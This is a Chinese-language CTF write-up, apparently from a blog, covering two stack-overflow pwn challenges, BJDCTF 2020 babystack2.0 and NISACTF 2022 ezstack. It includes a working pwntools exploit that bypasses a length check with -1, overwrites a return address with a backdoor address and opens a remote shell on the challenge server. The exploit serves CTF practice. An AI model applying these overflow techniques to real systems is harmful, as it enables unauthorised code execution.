 ### \[BJDCTF 2020\]babystack2.0

先check一下，用IDA64位打开

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701700687-image.png)

先看main函数源码

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701700757-image.png)

可以得出，先要输名字的长度，然后再read，buf是12位，也可以进行调试算（我这题调不出来，可以直接用IDA给的数据

由于有两个输入点，一个是scanf，另一个是read，scanf这个点可以随便填，重点在于read部分的溢出

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701701940-image.png)

buf的数组长度应该是由注释部分来计算得到0x10

那么还是套基本框架写脚本

```
from pwn import *

io = remote('node4.anna.nssctf.cn',28559)

target=0x040072A  #system/bin/sh的地址

payload=b'a'*(24)+p64(target)  #栈溢出
io.sendlineafter('name:',b'-1')

io.sendafter('name?',payload)

io.interactive()
```

对于read函数来说是不需要用sendline的，sendline会在末尾加一个换行符，也就是回车，scanf是必须要回车结尾的。

### \[NISACTF 2022\]ezstack

用32位IDA打开

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701704146-image.png)

可以看到在shell函数里存在溢出

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701704194-image.png)

这里没有直接可以使用是system/bin/sh

不过经过查找在plt连接表段里有system的地址，在data段里有/bin/sh的字符串可以凑成命令

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701704558-image.png)

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701704622-image.png)
